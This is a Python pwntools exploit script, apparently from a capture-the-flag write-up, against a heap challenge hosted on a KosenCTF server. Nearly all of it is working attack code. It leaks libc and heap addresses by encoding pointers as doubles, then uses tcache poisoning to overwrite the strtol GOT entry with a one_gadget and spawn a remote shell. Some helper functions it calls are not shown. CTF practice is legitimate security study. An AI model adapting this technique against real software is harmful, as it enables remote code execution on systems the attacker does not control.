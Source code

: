 ```python=


def hex_to_double(n):
    s = hex(n)[2:]
    s = s.rjust(16, "0")
    return str(struct.unpack('>d', binascii.unhexlify(s))[0])


if __name__ == "__main__":
    elf = ELF("chall")
    # libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
    libc = ELF("libc-2.27.so")

    free_hook_libc = libc.symbols["__free_hook"]
    malloc_hook_libc = libc.symbols["__malloc_hook"]
    system_libc = libc.symbols["system"]

    setbuf_got = elf.got["setbuf"]  #  0x602030
    atoi_got = elf.got["strtol"]

    # onegadgets = [0x4f2c5, 0x4f322, 0x10a38c]
    onegadgets = [0x4f365, 0x4f3c2, 0x10a45c]

    # s = process(elf.path)
    s = remote("pwn.kosenctf.com", 9005)

    # libc leak
    """
        from: https://gregstoll.dyndns.org/~gregstoll/floattohex/
    """
    setbuf_got_double = "3.1124634e-317"
    create(s, 0, 2, setbuf_got_double)
    libc_addr = u64(show(s, 0).ljust(8, b"\x00")) - libc.symbols["setbuf"]
    logger.libc(libc_addr)

    # heap leak
    string_p_double = "3.1125227e-317"
    create(s, 1, 1, "/bin/sh")
    create(s, 2, 2, string_p_double)
    heap_addr = u64(show(s, 2).ljust(8, b"\x00")) - 0x260
    logger.heap(heap_addr)

    # tcache poisoning
    target_addr = heap_addr + 0x260
    free_hook_addr = libc_addr + free_hook_libc
    system_addr = libc_addr + system_libc
    create(s, 3, 2, hex_to_double(target_addr))
    delete(s, 1)
    delete(s, 3)
    create(s, 4, 1, p64(atoi_got))
    create(s, 5, 1, "unko")
    s.recvuntil(b"> ")
    s.sendline(p64(libc_addr + onegadgets[2]))

    s.interactive()

```
